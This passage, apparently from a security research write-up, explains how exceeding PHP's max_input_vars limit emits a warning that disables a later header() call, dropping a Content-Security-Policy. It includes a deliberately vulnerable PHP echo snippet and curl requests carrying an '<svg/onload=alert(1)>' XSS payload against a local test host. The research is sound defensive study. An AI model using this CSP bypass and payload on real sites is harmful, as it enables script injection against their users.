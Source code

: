 Ever since @alech and @zeri shocked everyone, demonstrating how you could
take down almost every programming language through algorithmic complexity
[19], PHP had no choice but to introduce the `max_input_vars` directive as
a countermeasure. Although this measure didn't solve the problem from its
root, at least it prevented resource exhaustion from excessive input.
However, using limitations as a defense can sometimes be a double-edged
sword. Just take PCRE's `backtrack_limit` as an example - it was
originally supposed to block ReDoS, but attackers flipped it and used it
to invalidate regular expressions instead. And now, I'd like to introduce
another interesting one - where a security feature actually leads to a
*security bypass*!

In PHP, there's a hidden trap while setting HTTP headers: if there's any
kind of output before response headers, PHP would simply ignore all
subsequent `header()` calls. The official documentation also explicitly
mentions this:


    > Remember that `header()` must be called before any actual output is
    > sent, either by normal HTML tags, blank lines in a file, or from
    > PHP.


This is a textbook issue, and pops up in many CTF challenges. Yet, in most
cases, it still relies on unexpected output caused by existing logical
errors. But what if today, there's no code before setting response headers
at all - can you still exploit it?

</PRE>

***=> CSP: Content Security Policy***

<br>

```php
<?php
    header("Content-Security-Policy: default-src 'none';");
    echo $_GET["xss"];
```
<PRE>


Definitely! @pilvar cleverly exploited a side effect on `max_input_vars`
[20] : when the number of parameters exceeds PHP's limit, PHP kindly
throws a warning message at you. However, this warning indeed violates the
assumption that "there must be no output before the response header,"
totally breaking the defense-in-depth CSP, and re-enabling Cross-Site
Scripting again!

</PRE>

***=> CSP? Can't Stop Payloads!***

<br>

```perl
=> [1] CSP says No!
$ curl -i "http://orange.local/?xss=<svg/onload=alert(1)>"
  HTTP/1.1 200 OK
  [...]
  Content-Security-Policy: default-src 'none';

  <svg/onload=alert(1)>

|-------------------------------- [ next ] -------------------------------|

=> [2] We're free from CSP now!
$ curl -i "http://orange.local/?xss=<svg/onload=alert(1)> \
            &A=1&A=2&A=3&A=4&...&A=999&A=1000"
  HTTP/1.1 200 OK
  [...]
```